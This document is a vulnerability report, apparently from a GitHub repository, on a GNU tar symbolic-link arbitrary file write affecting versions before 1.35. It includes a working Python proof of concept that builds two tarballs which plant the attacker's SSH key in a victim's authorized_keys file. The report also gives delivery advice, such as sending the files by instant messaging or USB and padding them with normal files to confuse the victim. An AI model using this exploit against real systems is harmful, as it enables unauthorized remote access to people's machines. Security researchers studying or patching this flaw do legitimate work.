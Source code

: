 # Gnu tar component has a symbolic link arbitrary file write vulnerability
Author: Set3r.Pan
## Report
### Describe
tar is a file packaging format widely used in Unix and Unix-like systems (such as Linux), which supports processing files or directories containing symbolic links (i.e. soft links). The vulnerability stems from the fact that when tar is decompressed, an attacker can construct a malicious tar package with soft links to implement directory traversal and write arbitrary files, such as creating a ~/.ssh/authorized_keys file, thereby implementing a password-free login attack.
### Hazard level
High
### Affected version
Gnu tar < 1.35 

### POC&&EXP
explanation： 
Prerequisites for exploitation: You need to know the SSH username of the other host.  
1. Modify tar_poc.py  
Line 12: obj1.linkname = "/home/ubuntu/" # Replace with the actual victim machine home directory path  
Line 39: ssh_pubkey = "/home/kali/.ssh/id_rsa.pub" # Replace with the actual attack machine's SSH public key path  
2. Send the two generated compressed packages to the victim via instant messaging software or other media such as a USB flash drive.(The compressed file can also be filled with some normal files to confuse the other party
)  
3. The victim can unzip them in any directory.  
4. The attacker logs in to the victim's machine without a password.  
tar_poc.py  
```
import socket
import tarfile
import os

RANDOM_DIR_NAME = "my_directory"  # Define random directory names

def build_tar_gz_1(tar_gz_file):
    obj1 = tarfile.TarInfo()
    obj1.name = "{}".format(RANDOM_DIR_NAME)  # Set the name of the soft link
    obj1.mode = 0o777  # Set permissions
    obj1.type = tarfile.SYMTYPE  # Set as a soft link
    obj1.linkname = "/home/ubuntu/"  # Replace with the actual victim machine home directory path

    with tarfile.open(tar_gz_file, "w:gz") as tar:
        tar.addfile(obj1)  # Add soft link to tar.gz

def build_tar_gz_2(tar_gz_file, ssh_pubkey):
    obj1 = tarfile.TarInfo()
    obj1.name = "{}/.ssh/".format(RANDOM_DIR_NAME)
    obj1.mode = 0o700
    obj1.type = tarfile.DIRTYPE

    obj2 = tarfile.TarInfo()
    obj2.name = "{}/.ssh/authorized_keys".format(RANDOM_DIR_NAME)
    obj2.mode = 0o400
    obj2.type = tarfile.REGTYPE
    obj2.size = os.path.getsize(ssh_pubkey)

    with tarfile.open(tar_gz_file, "w:gz") as tar:
        tar.addfile(obj1)  # Add .ssh directory
        with open(ssh_pubkey, "rb") as f:
            tar.addfile(obj2, f) # Add authorized_keys file

# Create 1tar.gz file
tar_gz_file = "my_archive1.tar.gz"
build_tar_gz_1(tar_gz_file)  # Create a tar.gz file containing soft links

# Create 2tar.gz file
tar_gz_file = "my_archive2.tar.gz"
ssh_pubkey = "/home/kali/.ssh/id_rsa.pub"  # Replace with the attacker's actual SSH public key path
build_tar_gz_2(tar_gz_file, ssh_pubkey)  # Create a tar.gz file containing the SSH configuration

```
### Vulnerability Reproduction
1、The attacker can send the two tarballs generated by the POC to the victim through instant messaging software or other media such as a USB flash drive. The victim receives and decompresses them in turn:
![](./imgs/Gnu_tar_vuln_1.png)
2、Successfully overwrote .ssh/authorized_keys：
![](./imgs/Gnu_tar_vuln_2.png)
3、Finally, the attacker can log into the victim's machine through SSH without password.
![](./imgs/Gnu_tar_vuln_3.png)
### Attack Exploitation Analysis
There are two risk points in the tar decompression process:  
1. Uncontrollable soft links  
If the tar file contains soft links (symbolic links), any file or directory can be executed across directories. Attackers can use this to create links to important system files or directories.  
2. File name conflicts  
During the decompression process, if there is a file with the same file name as the decompressed file, tar will overwrite the existing file. If the file is a soft link, it will directly overwrite the target file or directory pointed to by its soft link.  
An attacker can use the above risk points to attack by making two tar compressed packages:  
a. Make the first tar package, which contains a soft link to the user's home directory (for example, my_directory);  
b. Make the second tar package to overwrite the .ssh folder in the user's home directory (for example, my_directory);  
c. The user decompresses the two packages, first decompresses the first package to create a soft link, and then decompresses the second package to overwrite the .ssh folder;  
d. The attacker controls the .ssh folder in the home directory through the soft link, and finally obtains the ssh password-free login permission.  

